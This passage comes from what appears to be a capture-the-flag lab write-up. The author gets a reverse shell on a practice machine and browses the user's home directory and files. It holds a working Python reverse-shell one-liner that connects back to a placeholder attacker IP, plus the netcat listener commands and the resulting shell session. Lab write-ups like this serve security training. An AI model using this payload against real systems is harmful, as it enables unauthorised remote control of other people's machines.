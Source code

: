Running the script as is with our new values inserted per the HackTricks documentation and we

You probably know the next steps for the reverse shells.

```bash
└─$ nc -lvnp 4446
listening on [any] 4446 ...
```

Open your favorite listener on your attack box, then spawn a shell to connect to your attack box from the victim

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<yourIP>",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh") 
```

Easy as that!

```bash
└─$ nc -lvnp 4446
listening on [any] 4446 ...
connect to [10.13.8.186] from (UNKNOWN) [10.10.219.148] 38628
$ whoami
whoami
mcskidy
$ ls -alhn
ls -alhn
total 48K
drwxr-xr-x 6 1000 1000 4.0K Dec 13 17:29 .
drwxr-xr-x 3    0    0 4.0K Oct 19 19:54 ..
drwxrwxr-x 5 1000 1000 4.0K Oct 19 20:03 app
lrwxrwxrwx 1    0    0    9 Oct 19 20:40 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 1000 1000 3.7K Feb 25  2020 .bashrc
drwxrwxr-x 3 1000 1000 4.0K Oct 19 19:59 .cache
-rw-rw-r-- 1 1000 1000   47 Oct 19 20:00 .gitconfig
drwx------ 4 1000 1000 4.0K Oct 19 19:57 .local
lrwxrwxrwx 1    0    0    9 Oct 19 20:40 .mysql_history -> /dev/null
-rw-r--r-- 1 1000 1000  807 Feb 25  2020 .profile
-rw-rw-r-- 1 1000 1000   75 Oct 19 20:03 .selected_editor
drwxrwxr-x 2 1000 1000 4.0K Dec 13 17:28 .ssh
-rw-r--r-- 1    0    0   38 Oct 19 20:07 user.txt
-rw------- 1 1000 1000    0 Nov  2 15:40 .viminfo
$ cat user.txt
cat user.txt
THM{<REDACTED>}
```
And here's our first flag, even. I could have gotten this from the exfiltration vulnerability we found earlier, but this was way easier than guessing I think.
```bash
$ cat .gitconfig
cat .gitconfig
[user]
        email = mcskidy@proddb
        name = mcskidy
$ cd app
cd app
$ ls -alhn
ls -alhn
total 24K
drwxrwxr-x 5 1000 1000 4.0K Oct 19 20:03 .
drwxr-xr-x 6 1000 1000 4.0K Dec 13 17:29 ..
-rw-rw-r-- 1 1000 1000 1.5K Oct 19 20:03 app.py
drwxrwxr-x 8 1000 1000 4.0K Nov  2 15:41 .git
drwxrwxr-x 3 1000 1000 4.0K Oct 19 19:58 static
drwxrwxr-x 2 1000 1000 4.0K Nov  2 15:29 templates
```